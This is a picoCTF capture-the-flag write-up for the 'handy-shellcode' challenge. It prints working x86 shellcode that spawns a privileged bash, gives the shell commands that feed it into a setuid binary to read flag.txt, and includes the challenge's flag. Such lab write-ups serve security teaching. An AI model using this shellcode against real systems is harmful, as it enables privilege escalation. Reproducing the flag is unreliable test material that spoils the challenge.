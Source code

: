 # handy-shellcode
This [program](vuln) executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_4_037bd47611d842b565cfa1f378bfd8d9 on the shell server. [Source](vuln.c). (50 points)

## Hint
You might be able to find some good shellcode online.

## Solution
Shellcode is a series of opcodes that we can write into the stdin of a program, which we usually have to execute ourselves. However, the challenge does this for us in this line of code:
```((void (*)())buf)();```
This means that the program will treat that address in memory as a series of opcodes and run them.
Using the shellcode from [here](http://shell-storm.org/shellcode/files/shellcode-606.php) `"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"`. This shellcode will run a shell for us as the root user, since we are running a setuid binary, with permissions to also view the files in the directory, thus we can read flag.txt. Write this shellcode to a file in the home directory, and `cat` out the contents of that file, with a tack before the pipe to keep the stdin pipe open.
```bash
python3 -c print('\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80') > ~/shellcode.txt
cat ~/shellcode.txt - | ./vuln
ls
cat flag.txt
```

## Details
Completed: *During challenge* 
Done by: Cyril  
Flag: `picoCTF{h4ndY_d4ndY_sh311c0d3_55c521fe}`
